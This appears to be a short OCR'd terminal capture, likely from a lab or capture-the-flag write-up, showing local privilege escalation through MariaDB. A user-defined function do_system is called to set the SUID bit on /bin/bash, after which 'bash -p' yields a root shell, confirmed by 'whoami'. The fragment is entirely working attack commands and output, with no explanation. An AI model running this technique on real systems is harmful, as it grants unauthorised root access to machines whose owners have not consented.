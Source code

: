 ```shell
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.002 sec)

MariaDB [mysql]> exit
Bye
bash-5.0$ bash -p
bash-5.0# whoami
root
```
